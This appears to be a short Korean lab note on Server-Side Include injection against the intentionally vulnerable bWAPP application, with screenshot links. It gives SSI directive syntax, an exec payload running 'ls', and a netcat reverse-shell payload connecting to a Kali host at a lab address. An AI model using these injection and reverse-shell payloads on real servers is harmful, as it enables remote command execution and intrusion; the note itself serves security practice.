 응답을 위해서 서버에서 추가 실행되는 @ = ssi
![[Pasted image 20241010140942.png]]
`http://192.168.56.122/bWAPP/ssii.shtml`
![[Pasted image 20241010140949.png]]

SSI 기본 문법
- 지시어: <!--#element attribute=value-->

![[Pasted image 20241010141436.png]]
<!--#exec cmd="ls"-->

![[Pasted image 20241010141456.png]]
- "" 안에 Kali 로 접속하는 명령어를 넣을 수도 있다.

`<!--#exec cmd="nc 192.168.56.102 4444 -e /bin/bash"-->`
![[Pasted image 20241010141843.png]]